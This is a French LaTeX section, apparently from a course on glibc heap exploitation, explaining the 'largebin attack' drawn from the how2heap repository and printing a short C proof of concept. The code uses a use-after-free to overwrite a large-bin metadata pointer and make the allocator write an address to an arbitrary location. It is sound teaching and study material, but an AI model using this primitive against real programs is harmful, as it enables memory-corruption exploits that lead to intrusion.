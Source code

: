 \subsubsection{Largebin Attack}

\noindent\textbf{Fichier de référence :}
\href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/large_bin_attack.c}{\texttt{large\_bin\_attack.c}}

\noindent\textbf{Techniques similaires :}
\href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/house_of_tangerine.c}{\texttt{house\_of\_tangerine.c}},
\href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/house_of_water.c}{\texttt{house\_of\_water.c}}

\noindent\textbf{Hypothèse :} large bin, use-after-free, feng shui

\noindent\textbf{Inconvénient :} On ne peut modifier la cible qu’avec des valeurs d’adresse.\\
Technique patchée à partir de la version~2.42 (\href{https://patchwork.sourceware.org/project/glibc/patch/20250214053454.2346370-1-benjamin.p.kallus.gr@dartmouth.edu/}{patch}).

L'idée de cette technique est de modifier la valeur d'une variable.
Pour ce faire, on utilise un bug de type use-after-free afin de substituer un pointeur
des métadonnées vers notre cible.
L’objectif final est de faire en sorte que le mécanisme interne de gestion des large bins
écrive une adresse contrôlée à un emplacement arbitraire.

Le code est le suivant :

\begin{verbatim}
int main()
{
    /* Disable IO buffering to prevent stream from interfering with heap */
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    size_t target = 0;
    size_t *p1 = malloc(0x428);
    size_t *g1 = malloc(0x18);

    size_t *p2 = malloc(0x418);
    size_t *g2 = malloc(0x18);

    free(p1);
    size_t *g3 = malloc(0x438);

    free(p2);

    /* Overwrite metadata pointer */
    p1[3] = (size_t)((&target) - 4);

    size_t *g4 = malloc(0x438);

    assert((size_t)(p2 - 2) == target);

    return 0;
}
\end{verbatim}

